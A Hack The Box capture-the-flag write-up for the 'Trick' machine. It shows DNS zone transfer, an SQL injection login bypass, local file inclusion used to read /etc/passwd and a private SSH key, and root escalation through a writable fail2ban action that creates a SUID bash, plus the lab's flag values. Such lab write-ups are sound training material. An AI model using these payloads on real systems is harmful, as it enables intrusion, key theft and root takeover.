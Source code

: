 
# CTF Writeup Trick - Hack The Box

## 🧪 Machine Name: `Trick`

**Platform:** Hack The Box**IP Address:** `10.10.11.166`**Difficulty:** Easy

---

## 🛍️ Overview

Trick is an Easy Linux machine that demonstrates a variety of enumeration and privilege escalation techniques. The target hosts multiple virtual hosts and a DNS service which must be queried to resolve subdomains. Through SQL injection and local file inclusion, a shell is gained. Root is obtained by exploiting `fail2ban` misconfiguration via group-writable configuration files.

---

## 🔍 Enumeration

### 🔎 Nmap Scan

```bash
nmap -p- trick.htb --min-rate 10000
nmap -p 22,25,53,80 trick.htb -sCV -oN nmapscan
```

### DNS Zone Transfer

```bash
dig AXFR trick.htb @10.10.11.166
```

Revealed subdomain: `preprod-payroll.trick.htb`

### SMTP Snooping

```bash
telnet trick.htb 25
VRFY root
VRFY admin
```

---

## 🔢 Foothold

### SQL Injection Login

```sql
Username: admin' OR 1=1 LIMIT 1;-- -
```

Login successful on `http://preprod-payroll.trick.htb/login.php`

### Virtual Host Discovery

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://trick.htb -H "Host: preprod-FUZZ.trick.htb" -fs 5480
```

Discovered: `preprod-marketing.trick.htb`

### Local File Inclusion

```bash
ffuf -w dirTraversal-nix.txt -u http://preprod-marketing.trick.htb/index.php?page=FUZZ -fs 0
```

Found traversal:

```text
http://preprod-marketing.trick.htb/index.php?page=....//....//....//etc/passwd
```

Confirmed user `michael`

### Reading Private SSH Key

```text
http://preprod-marketing.trick.htb/index.php?page=..././..././..././home/michael/.ssh/id_rsa
```

### SSH Login

```bash
chmod 600 id_rsa
ssh -i id_rsa michael@trick.htb
```

User flag: `dbb4962a2e4eb8f22f428a1e84d54526`

---

## 🕵️️ Privilege Escalation

### Sudo Check

```bash
sudo -l
```

```
(root) NOPASSWD: /etc/init.d/fail2ban restart
```

### Writable `fail2ban` Config

`/etc/fail2ban/action.d` is group-writable by `michael`

### Payload

Modified action file:

```ini
actionban = cp /bin/bash /tmp; chmod +s /tmp/bash
actionunban = chmod +s /tmp/bash
```

Trigger a ban with brute force or crafted traffic, then:

```bash
/tmp/bash -p
```

### Root flag

```bash
cat /root/root.txt
3d0fb710908d01e7f224684957fe1512
```

---

## 🧠 Lessons Learned

- DNS enumeration and subdomain resolution
- SQLi login bypass
- LFI via page parameter and path traversal
- Reading files for SSH key reuse
- Abusing writable `fail2ban` configuration for root access

---

*Writeup by inksec**GitHub: *[*https://github.com/inkedqt*](https://github.com/inkedqt)
